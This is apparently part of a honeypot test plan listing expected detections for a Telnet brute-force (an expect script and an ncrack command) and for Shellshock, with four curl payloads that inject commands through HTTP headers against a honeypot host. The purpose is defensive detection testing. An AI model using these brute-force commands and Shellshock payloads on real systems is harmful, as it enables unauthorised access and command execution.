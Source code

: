 
### 2. Telnet Brute-Force Attack

**Objective**: Test Telnet honeypot and brute-force detection.

**Expected Detections**:
- Cowrie: Telnet authentication logs
- Suricata: Alert SID `2000002` (Telnet brute-force)

#### Manual Test

```bash
# Using expect script
cat > telnet_test.exp <<'EOF'
#!/usr/bin/expect -f
set timeout 5
spawn telnet $env(HONEYPOT_HOST) 23
expect "login:"
send "admin\r"
expect "Password:"
send "admin\r"
expect eof
EOF

chmod +x telnet_test.exp
./telnet_test.exp
```

#### Using ncrack

```bash
ncrack -U usernames.txt -P passwords.txt telnet://$HONEYPOT_HOST:23
```

---

### 3. Shellshock (CVE-2014-6271) Exploit

**Objective**: Test HTTP exploit detection and Dionaea response.

**Expected Detections**:
- Dionaea: HTTP request with exploit pattern
- Suricata: Alert SID `2000008`, `2000009` (Shellshock)
- Logstash: Sets `is_exploit: "1"`, `exploit_type: "shellshock"`
- MITRE: `T1190` (Exploit Public-Facing Application)

#### Test Payloads

```bash
# Payload 1: User-Agent header
curl -H "User-Agent: () { :; }; echo vulnerable" http://$HONEYPOT_HOST:80/

# Payload 2: Referer header
curl -H "Referer: () { :; }; /bin/bash -c 'whoami'" http://$HONEYPOT_HOST:80/

# Payload 3: Cookie
curl -H "Cookie: () { :; }; /usr/bin/id" http://$HONEYPOT_HOST:80/cgi-bin/test.sh

# Payload 4: Custom header
curl -H "X-Forwarded-For: () { :; }; echo pwned" http://$HONEYPOT_HOST:80/
```
